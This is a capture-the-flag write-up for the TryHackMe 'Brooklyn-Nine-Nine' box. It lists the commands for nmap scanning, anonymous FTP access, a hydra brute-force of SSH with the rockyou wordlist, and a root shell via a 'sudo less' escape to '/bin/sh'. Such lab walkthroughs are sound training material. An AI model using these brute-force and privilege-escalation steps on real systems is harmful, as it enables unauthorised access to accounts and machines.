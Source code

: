 # 'Brooklyn-Nine-Nine' box writeup

## Brooklyn-Nine-Nine is a CTF box written by Fsociety2006 and available on the [TryHackMe](https://tryhackme.com/) platform

## Read about [Less Command](https://linuxize.com/post/less-command-in-linux/) and [Privilege Escalation using find, vim, less or bash](https://pentestlab.blog/category/privilege-escalation/)

![bg](images/background.jpeg)

## Foothold

+ **Let's deploy our machine and start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.244.52``

+ **We can clearly see 3 ports open, a ftp, ssh and a http, all configured on default ports**

![1](images/nmap_scan_bnn.jpg)

**From the nmap report, the ftp anonymous login seems to be possible, so let's try it.**

``ftp 10.10.244.52``

![2](images/ftp.jpg)

**We successfully connected and we can see a** note_to_jake.txt **file inside the ftp server. We can get that file and read it**

``get note_to_jake.txt``
![3](images/change_password.jpg)

+ **Looks that Jake need to change his password. Because jake is using a very weak password, maybe we can brute-force his login to some service. Let's use hydra to brute-force the ssh service - I'm using the rockyou.txt wordlist**

``hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.244.52 -t 4 ssh``

![4](images/hydra.jpg)

## User escalation

+ **So here we got some ssh credentials. Let's connect on the ssh service and run a** ``sudo -l`` **command on the jake user**

![5](images/less.jpg)

**It looks like jake can run the less command with su privilege. Less is a command which can display content of a file and we can navigate both forward and backward through the file. Let's try to read the user flag.**

``sudo less /home/holt/user.txt``

[6](images/user_flag_1.jpg)

## Root escalation

+ **And here it is our first flag. We can also use less to get a privesc and get root access. Let's read a file with less**

``less /etc/passwd``

**Then generate a shell for the root user.**

``!/bin/sh``

![7](images/binsh.jpg)

![8](images/root_flag_2.jpg)
